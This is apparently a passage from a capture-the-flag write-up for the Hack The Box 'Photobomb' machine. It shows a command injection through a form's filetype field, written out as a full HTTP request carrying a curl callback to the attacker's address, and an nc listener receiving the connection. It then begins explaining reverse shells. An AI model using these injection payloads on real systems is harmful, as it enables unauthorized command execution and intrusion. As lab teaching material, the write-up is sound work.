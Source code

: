 This was the request we captured, lets try adding `;curl+myipaddress:9999` (the plus is used instead of a space character) to each of the parameters (photo, filetype, dimensions) one request at a time, eventually we will get a callback like the one below! The parameter field that did the trick was filetype.

The working request was as follows.
![](/assets/CTFs/HTB/Photobomb/burp-request-callback.png)
```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://photobomb.htb/printer
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl+myipaddress:9999&dimensions=3000x2000
```

![](/assets/CTFs/HTB/Photobomb/post-request-callback.png)

```bash
nc -lnvp 9999
# listening on [any] 9999 ...
# connect to [myipaddress] from (UNKNOWN) [10.10.11.182] 33660
# GET / HTTP/1.1
# Host: myipaddress:9999
# User-Agent: curl/7.68.0
# Accept: */*
```

Now we know that we can inject some commands, bash commands to be exact, into the *filetype* field. But how do we do anything useful with this, like getting a full shell. We can use something called a **Reverse Shell**, this is a shell that we get by letting some piece of software connect to our computer and the shell can send the commands between it.

> A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to connect to a remote computer and redirect the input and output connections of the target system’s shell so the attacker can access it remotely.
>
> https://www.imperva.com/learn/application-security/reverse-shell/

There are a lot of different reverse shells you can use based on the software that is installed on the attacking machine, from my enumeration we know that there is **python3** installed on the system. How you are able to find this out is not for today, but a way that always works is trial and error.
Ok, so how do we make a reverse shell, I highly recommend learning how they work but for most purposes there is an awesome website that has a reverse shell for a lot of common software. 
